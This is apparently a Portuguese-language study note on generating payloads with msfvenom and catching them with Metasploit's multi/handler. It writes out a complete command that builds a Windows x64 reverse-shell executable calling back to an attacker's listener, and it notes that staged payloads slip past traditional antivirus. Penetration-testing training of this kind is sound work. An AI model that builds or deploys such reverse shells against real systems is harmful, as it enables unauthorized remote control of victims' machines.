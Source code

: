 Encontramos tudo sobre payload
sintaxe padrão:
``msfvenom -p <PAYLOAD> <OPTIONS>``

para gerar uma reverse shell windows x64 em formato exe poderiamos usar:
``msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>``

- ``-f`` formato
- ``-o`` lugar do output
- ``LHOST=<IP>`` especifica o ip para conectar de volta
- ``LPORT=<port> `` porta na máquina local para se conectar de volta

## staged vc stageless

- **Staged:** payloads são enviados em duas partes. A primeira é chamada de stager. Esse é um pedaço de código que é executado diretamente no servidor. Ele concta de volta a um listener que está esperando, mas não realmente tem o código do reverse shell por conta própria. Ele usa a conexão para baixar o payload real, executando diretamente e impedindo que seja salvo no disco e pelas soluções tradicionais de anti-virus. Staged payloads requerem um listener especial.
- **Stageless:** contém tudo necessário para executar e gerar uma reverse shell para o listener. Eles são maiores e tendem a ser mais fácil de serem pegos pelo antivírus.


## Payload Naming Conventions
A convenção básica é a seguinte:
``<OS>/<arch>/<payload>``
Para windows de 32 bits omite-se o arch

Stageless payloads são marcados com underscores ``_``
Staged payloads são marcados com slash ``/``

Mostra os payloads disponíveis
``msfvenom --list payloads``

## Metasploit multi/handler
É uma ferramenta focada em pegar reverse shells. É essencial se você deseja usar meterpreter shells.
1. ``msfconsole``
2. ``use multi/handler``

``exploit -j`` inicia o comando como um trabalho no background
